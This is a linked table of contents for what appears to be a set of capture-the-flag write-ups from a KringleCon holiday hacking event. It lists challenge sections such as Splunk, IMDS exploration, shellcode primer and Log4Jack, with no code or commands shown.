## 9. [Splunk!](/09.%20Splunk!/README.md)
### 9.1. [Side Challenge - Yara Analysis](/09.%20Splunk!/09.01.%20Yara%20Analisys/README.md)
## 10. [Now Hiring!](/10.%20Now%20Hiring!/README.md)
### 10.1. [Side Challenge - IMDS Exploration](/10.%20Now%20Hiring!/10.01%20IMDS%20Exploration/README.md)
## 11. [Customer Complaint Analysis](/11.%20Customer%20Complaint%20Analysis/README.md)
### 11.1. [Side Challenge - Strace Ltrace Retrace](/11.%20Customer%20Complaint%20Analysis/11.01%20Side%20Challenge%20-%20Strace%20Ltrace%20Retrace/README.md)
## 12. [Frost Tower Website Checkup](/12.%20Frost%20Tower%20Website%20Checkup/README.md)
### 12.1. [Side Challenge - The Elf C0de Python Edition](/12.%20Frost%20Tower%20Website%20Checkup/12.01.%20Side%20Challenge%20-%20The%20Elf%20C0de%20Python%20Edition/README.md)
## 13. [FPGA Programming](/13.%20FPGA%20Programming/README.md)
### 13.1. [Side Challenge - Frostavator](/13.%20FPGA%20Programming/13.01.%20Side%20Challenge%20-%20Frostavator/README.md)
## 14. [Bonus! Blue Log4Jack](/14.%20Bonus!%20Blue%20Log4Jack/README.md)
## 15. [Bonus! Red Log4Jack](/15.%20Bonus!%20Red%20Log4Jack/README.md)
## 16. [That’s how Jack came from space](/README.md#16-thats-how-jack-came-from-space)
## 17. [Narrative](/README.md#17-narrative)
## 18. [Conclusions](/README.md#18-conclusions)
---
## 0. [windovo\\thedead> whoami](/README.md)
## 1. [KringleCon Orientation](/01.%20KringleCon%20Orientation/README.md)
## 2. [Where in the World is Caramel Santiaigo?](/02.%20Where%20in%20the%20World%20is%20Caramel%20Santiaigo/README.md)
### 2.1. [Side Challenge - Exif Metadata](/02.%20Where%20in%20the%20World%20is%20Caramel%20Santiaigo/02.01.%20Side%20Challenge%20-%20Exif%20Metadata/README.md)
## 3. [Thaw Frost Tower's Entrance](/03.%20Thaw%20Frost%20Tower's%20Entrance/README.md)
### 3.1. [Side Challenge - Grepping for Gold](/03.%20Thaw%20Frost%20Tower's%20Entrance/03.01.%20Grepping%20for%20Gold/README.md)
## 4. [Slot Machine Investigation](/04.%20Slot%20Machine%20Investigation/README.md)
### 4.1. [Side Challenge - Logic Munchers](/04.%20Slot%20Machine%20Investigation/04.01.%20Side%20Challenge%20-%20Logic%20Munchers/README.md)
## 5. [Strange USB Device](/05.%20Strange%20USB%20Device/README.md)
### 5.1. [Side Challenge - IPv6 Sandbox](/05.%20Strange%20USB%20Device/05.01.%20Side%20Challenge%20-%20IPv6%20Sandbox/README.md)
## 6. [Shellcode Primer](/06.%20Shellcode%20Primer/README.md)
### 6.1. [Side Challenge - Holiday Hero](/06.%20Shellcode%20Primer/06.01.%20Side%20Challenge%20-%20Holiday%20Hero/README.md)